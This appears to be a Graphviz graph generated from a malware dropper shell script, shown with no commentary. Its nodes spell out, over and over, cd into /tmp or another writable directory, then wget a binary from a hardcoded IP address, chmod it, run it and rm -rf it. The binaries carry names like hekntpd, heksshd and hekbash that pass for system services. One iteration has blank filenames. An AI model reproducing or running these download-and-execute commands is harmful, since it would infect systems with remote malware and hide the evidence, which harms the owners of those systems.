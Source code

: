 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://45.77.82.241/hekntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x hekntpd "];
12 -> 14 [label=";,"];
14 [label="./hekntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf hekntpd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://45.77.82.241/heksshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x heksshd "];
30 -> 32 [label=";,"];
32 [label="./heksshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf heksshd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://45.77.82.241/hekopenssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x hekopenssh "];
48 -> 50 [label=";,"];
50 [label="./hekopenssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf hekopenssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://45.77.82.241/hekbash "];
64 -> 66 [label=";,"];
66 [label="chmod +x hekbash "];
66 -> 68 [label=";,"];
68 [label="./hekbash "];
68 -> 70 [label=";,"];
70 [label="rm -rf hekbash "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://45.77.82.241/hektftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x hektftp "];
84 -> 86 [label=";,"];
86 [label="./hektftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf hektftp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://45.77.82.241/hekwget "];
100 -> 102 [label=";,"];
102 [label="chmod +x hekwget "];
102 -> 104 [label=";,"];
104 [label="./hekwget "];
104 -> 106 [label=";,"];
106 [label="rm -rf hekwget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://45.77.82.241/hekcron "];
118 -> 120 [label=";,"];
120 [label="chmod +x hekcron "];
120 -> 122 [label=";,"];
122 [label="./hekcron "];
122 -> 124 [label=";,"];
124 [label="rm -rf hekcron "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://45.77.82.241/hekftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x hekftp "];
138 -> 140 [label=";,"];
140 [label="./hekftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf hekftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://45.77.82.241/hekpftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x hekpftp "];
156 -> 158 [label=";,"];
158 [label="./hekpftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf hekpftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://45.77.82.241/heksh "];
172 -> 174 [label=";,"];
174 [label="chmod +x heksh "];
174 -> 176 [label=";,"];
176 [label="./heksh "];
176 -> 178 [label=";,"];
178 [label="rm -rf heksh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://45.77.82.241/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://45.77.82.241/hekapache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x hekapache2 "];
210 -> 212 [label=";,"];
212 [label="./hekapache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf hekapache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://45.77.82.241/hektelnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x hektelnetd "];
228 -> 230 [label=";,"];
230 [label="./hektelnetd "];
230 -> 231 [label=";,"];
}
